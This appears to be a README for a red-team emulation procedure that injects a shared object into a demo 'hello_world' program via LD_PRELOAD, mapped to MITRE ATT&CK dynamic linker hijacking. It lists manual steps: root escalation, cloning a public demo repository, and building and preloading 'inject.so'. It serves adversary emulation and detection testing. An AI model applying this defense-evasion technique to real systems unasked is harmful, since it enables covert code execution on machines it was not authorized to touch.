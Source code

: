 # Dynamic Linker Hijacking

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the injection of a shared object into a program using LD_PRELOAD.

## Examples
You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//defense-evasion/linux/dynamic-linker-hijacking/dynamic-linker-hijacking.yaml
```

## Steps

1. **clone-ldpreload**: This step clones the LD_PRELOAD-run-at-load-time repository from GitHub (https://github.com/ProfessionallyEvil/LD_PRELOAD-run-at-load-time). This will checkout commit 665a62aa6d86a38541fa05d15a7309f366584a5e. A cleanup step is also provided to remove the repository post-execution.
2. **compile-binary**: This step compiles the "hello_world" binary target in the cloned repository.
3. **test-binary**: This step tests the "hello_world" binary to confirm it compiled without issues.
4. **create-shared-object**: This step creates a shared object named "inject.so" in the cloned repository.
5. **inject-shared-object**: This step injects the "inject.so" shared object into the "hello_world" program using LD_PRELOAD.

## Manual Reproduction Steps

```
# Escalate privileges to root
sudo su

git clone https://github.com/ProfessionallyEvil/LD_PRELOAD-run-at-load-time.git
cd LD_PRELOAD-run-at-load-time/

# Compile binary target
make hello_world

# Test it to confirm it compiled without issues
./hello_world

# Fix bug in Makefile
sed -i 's/-FPIC/-fPIC/g' Makefile

# Create shared object that we will inject into the hello_world program
make inject.so

# Inject the shared object into the hello_world program
LD_PRELOAD=./inject.so ./hello_world
```

## MITRE ATT&CK Mapping

- **Tactics**:
    - TA0005 Defense Evasion
- **Techniques**:
    - T1574 Hijack Execution Flow
- **Subtechniques**:
    - T1574.006 Hijack Execution Flow Dynamic Linker Hijacking

